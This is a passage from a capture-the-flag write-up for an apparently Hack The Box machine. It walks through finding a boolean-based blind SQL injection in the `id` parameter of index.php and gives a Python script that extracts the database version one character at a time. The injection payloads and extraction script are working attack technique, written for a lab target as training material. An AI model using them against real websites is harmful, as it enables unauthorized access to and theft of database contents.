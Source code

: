 `/dev` returned nothing of interest. Visiting `index.php` returns this:

![](../../../.gitbook/assets/unattended-image-1.png)

Reading the page source was rather unique, since it seems to index pages based on an `id` parameter.

![](../../../.gitbook/assets/unattended-image-2.png)

The `id` for the About page was 465, and submitting `465'` results in a return to the main page. Interesting, as this could signify SQL Injection. I tested it with `465' AND 1=1-- -` and it returned me to the About page. Testing it with `AND 1=2` results in being redirected to the main page. This confirms there is an SQL injection vulnerability.

First, I had to test which SQL database this was running, and this could be done by testing either `version()` or `@@version`.

```python
import requests
import string
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

i = 1
while True:
    done = True
    for j in string.printable:
        param = {
        	'id': f"465' and substring(@@version,{i},1) = '{j}'-- -"
    	}
        r = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False)
        if "sorry" in r.text:
        	continue
        sys.stdout.write(j)
        sys.stdout.flush()
        i += 1
```